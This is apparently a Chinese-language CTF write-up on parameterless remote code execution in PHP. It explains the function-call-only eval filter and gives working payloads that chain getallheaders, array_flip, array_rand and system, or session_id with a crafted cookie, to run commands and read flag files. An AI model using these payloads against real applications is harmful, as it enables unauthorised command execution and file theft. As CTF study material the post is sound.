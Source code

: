```yaml
---
title: "无参数RCE"
subtitle: ""

description: ""
date: 2024-03-07T18:13:51+08:00
draft: false

tags: ["RCE"]
categories: ["Bypass"]

---
```


一个很有趣的RCE姿势

## 核心代码

```php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {    
    eval($_GET['code']);
}
```

关键点在于`('/[^\W]+((?R)?\`这个正则表达式，改表达式替换后，每个函数内的参数都会被匹配

## 相关函数

### 基本操作

- `scandir()`：返回当前目录中所有的文件和目录，结果是一个数组

- `current()`与`pos()`：返回当前数组中的值（默认第一个）

- `localeconv()`：返回本地数字及货币信息的数组（该数组的第一项是`.`，可以与`scandir`配合使用）

- `getallheaders()`：获取所有请求头信息，并返回键值对

- `strrev()`：返回反转后的字符串

- `eval()`、`assert()`、`system`：命令执行

- `highlight_file()`、`show_source()`、`read_file()`：读取文件内容

- `getenv()`：获取环境变量（php7.1版本以上）

- `get_defined_vars()`：返回由已定义变量所组成的多维数组

### 数组操作

- `end()`：内部指针指向数组中最后一个元素并输出

- `next()`：指向下一个元素并输出

- `prev()`：指向上一个元素并输出

- `reset()`：指向数组中第一个元素并输出

- `each()`：返回当前元素的键名和键值，并将内部指针向前移动

- `array_rand()`：随机返回一个键名

- `array_flip()`：交换数组中的键与值，返回交换后的数组

- `array_reverse()`：以相反的顺序返回数组内容

- `array_shift()`：删除数组中的第一个元素并返回被删除的值

- `implode()`：用于将数组转化为字符串，让`echo`或`printf`得以输出结果

### 目录操作

- `getcwd()`：获取当前工作目录

- `chdir()`：改变当前的目录

- `dirname()`：对路径作操作，返回去掉文件名后的目录名（如`/test/index.php`返回`/test`）

举个栗子：`scandir('.')`用于返回当前目录，在无法传参数的情况下，可以用`localeconv()`构造一个`.`，再用`current()`返回`.`给`scandir()`即可

> ?payload=var_dump(scandir(current(localeconv())));

## 相关例题

### getallheaders()

- 题目来源：2023NewStarCTF-R!!C!!E!!

源码如下

```php
<?php  
highlight_file(__FILE__);  
if (';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['star'])) {  
    if(!preg_match('/high|get_defined_vars|scandir|var_dump|read|file|php|curent|end/i',$_GET['star'])){  
        eval($_GET['star']);  
    }  
}
```

这题用到了`getallheaders()函数`，用于获取当前所有的请求头信息，但只允许在Apache环境下使用，在php7以上的版本可以用`apache_request_headers()`代替

本题思路是在请求头中添加我们要执行的系统命令，用`getallheaders()`获取所有的请求头信息，接着用`array_flip()`与`array_rand()`来调换与获取键值对，最后用`system()`来执行命令

payload

```
# parmas
?star=system(array_rand(array_flip(getallheaders())));

# headers
flag: cat /f*
```

> 由于`array_rand()`是随机获取的，因此可以删除部分请求头来提高成功率

### session_id()

- 题目来源：BUUCTF-禁止套娃

源码如下

```php
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

并没有过滤`scandir()`，先看一下目录下的文件

exp

```
?exp=var_dump(scandir(current(localeconv())));
```

放包后得到结果，可以看到flag.php位于数组第四个位置

![](/img/无参数RCE/2024-03-07-18-50-31-image.png)

有三种解法，其一是利用`array_reverse()`与`next()`来对数组进行操作，再用`show_source()`之类的函数进行读取；其二是用`getallheaders()`；其三便是`session_id()`

前面也讲到，倘若中间件不是Apache，`getallheaders()`便无法使用，这里介绍下`session_id()`的使用

将恶意代码写到cookie的PHPSESSID中，再利用`session_id()`读取，之后便可以用其他函数来实现命令执行。但是`session_id()`需要开启session才能使用，因此在此之前还需要用`session_start()`来开启session服务

payload

```
# parmas
?exp=show_source(session_id(session_start()));

# headers
Cookie: PHPSESSID=flag.php
```